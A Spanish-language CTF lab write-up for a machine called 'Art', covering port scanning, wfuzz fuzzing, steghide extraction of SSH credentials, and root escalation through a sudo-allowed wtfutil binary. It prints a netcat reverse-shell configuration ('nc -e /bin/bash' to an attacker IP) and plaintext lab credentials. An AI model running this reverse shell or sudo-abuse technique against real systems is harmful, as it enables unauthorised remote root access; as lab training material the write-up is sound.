 ```yaml
---
layout: post
title: Art
date: 2022-12-02
categories: ["HMV", "Enumeration", "Steganography", "File Edit"]
thumbnail: "assets/images/Art.png"
---
```


# Art [ Hack The Box ]

### Reconocimiento
##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 192.168.1.108 -oG allPorts`
- `nmap -sCV -p22,80 192.168.1.108 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Shell
Si entramos a la página veremos una imagen y un texto (`SEE HMV GALLERY!`), si miramos el código de la página veremos un comentario que nos dice que necesita resolver el problema con el parámetro `tag`.

Si buscamos el archivo `index.php` veremos que es la misma página, por lo que con `GoBuster` buscaré por ficheros `PHP`. Tras unos minutos sin resultados decidí `fuzzear` los parámetros del `index.php`. Para ello utilicé `WFuzz`, una herramienta hecha en `Python`.

```
wfuzz -u "http://192.168.1.108/index.php?FUZZ=/etc/passwd" -w directory-list-2.3-medium.txt
```

Tras unos segundos veremos que sólo existe un parámetro, el `tag`. En este caso no hay `LFI`, pero podemos tratar de `fuzzear` a ver si encontramos un archivo con el parámetro `tag`. Para elo utilicé de nuevo `WFuzz`:

```
wfuzz -u "http://192.168.1.108/index.php?tag=FUZZ" -w directory-list-2.3-medium.txt
```

Tras unos segundos veremos tres resultados: `0`, `beauty` y `beautiful`. Si miramos `0` y `beautiful` nos muestran lo que ya habíamos visto, pero `beauty` nos muestra una imagen diferente, vamos a ver si oculta algo.

Para ello utilicé una herramienta llamada `StegHide`, la cual nos ayudará a encontrar mensajes ocultos en imágenes.

- `steghide extract -sf dsa32.jpg`

```
Enter passphrase:
wrote extracted data to "yes.txt".
```

Se nos creó un archivo llamado `yes.txt` con lo que la herramienta extrajo de la foto, vamos a ver qué es:

```
lion/shel0vesyou
```

Estupendo! Tenemos las credenciales de `Lion`!

### Subida de privilegios
Una vez nos hayamos conectado por `SSH` a la máquina como `Lion` querremos ser `root`, así que comencé por hacer `sudo -l` para listar lo que podía hacer en la máquina.

```
Matching Defaults entries for lion on art:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
 
User lion may run the following commands on art:
    (ALL : ALL) NOPASSWD: /bin/wtfutil
```

Como vemos podemos ejecutar un binario llamado `wtfutil` como cualquier usuario, es decir, podemos ejecutarlo como `root`. Tras iniciarlo vemos un link al [`GitHub`](https://github.com/wtfutil/wtf) del creador y, ahí, podemos encontrar la herramienta.

Vemos que cuando la iniciamos se va a la carpeta personal del usuario que la inició y de ahí a una carpeta llamada `.config`. Dentro hay un archivo con el nombre de `config.yml`.

Si miramos el archivo veremos que va por módulos. El módulo `uptime` ejecuta en segundo plano un comando con unos argumentos, vamos a cambiarlos por una Reverse Shell con `NC`, para ello nos pondremos en escucha  en nuestra máquina por el puerto que queramos, en mi caso el `4444`.

- `nc -nlvp 4444`

Bien, ahora que lo tenemos preparado podemos cambiar las líneas `args` y `cmd` de nuestro archivo de configuración (`/home/lion/.config/config.yml`).

```
args: ['-e','/bin/bash','192.168.1.103','4444']
cmd: "nc"
```

Como vimos antes si ejecutamos la herramienta como `root` usará la configuración que tiene `root`, pero no hemos editado ese archivo (no tenemos permisos) pero sí hemos editado nuestro fichero. Para utilizar nuestro fichero tenemos que utilizar el parámetro `--config=` y especificar la configuración editada, en este caso está en `/home/lion/.config/config.yml`.

Bien! Tras iniciar la herramienta como `root` recibimos la Shell! Qué fácil!